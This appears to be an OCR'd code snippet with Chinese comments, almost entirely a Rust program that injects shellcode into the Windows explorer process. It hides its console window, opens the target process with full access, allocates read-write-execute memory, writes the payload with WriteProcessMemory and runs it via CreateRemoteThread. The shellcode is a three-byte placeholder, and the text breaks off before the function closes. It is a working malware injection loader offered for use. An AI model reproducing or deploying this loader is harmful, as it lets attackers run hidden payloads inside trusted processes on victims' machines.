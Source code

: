 这里以 CreateRemoteThread 来执行

```bash
#![windows_subsystem = "windows"]

use std::ptr;
use sysinfo::{PidExt, ProcessExt, System, SystemExt}; 
use windows_sys::Win32::{
    Foundation::*,
    System::{Diagnostics::Debug::*, Threading::*, Memory::*},
};

fn main() {
    let shellcode: [u8; 3] = [0xfc, 0x48, 0x83, ];  // shellcode

    let s = System::new_all();
    let process_id: u32 = s
        .processes_by_name("explorer") // 注入explorer进程
        .next() 
        .unwrap() 
        .pid() 
        .as_u32(); 

    inject(&shellcode, process_id);
}


fn inject(shellcode: &[u8], process_id: u32) {
    unsafe {
        // 使用 OpenProcess 获取进程的句柄
        let p_handle = OpenProcess(PROCESS_ALL_ACCESS, 0, process_id);

        // 分配RWX内存
        let r_ptr = VirtualAllocEx(
            p_handle,
            ptr::null(),
            shellcode.len(),
            MEM_COMMIT,
            PAGE_EXECUTE_READWRITE,
        );

        // 写入shellcode到注入的进程
        let mut bytes_written = 0;
        WriteProcessMemory(
            p_handle,
            r_ptr,
            shellcode.as_ptr() as _, 
            shellcode.len(),
            &mut bytes_written,
        );

        // 使用CreateRemoteThread来执行
        let t_handle = CreateRemoteThread(
            p_handle,
            ptr::null(),
            0,
            Some(std::mem::transmute(r_ptr)), 
            ptr::null(),
            0,
            ptr::null_mut(),
        );

        CloseHandle(t_handle);
        CloseHandle(p_handle);
```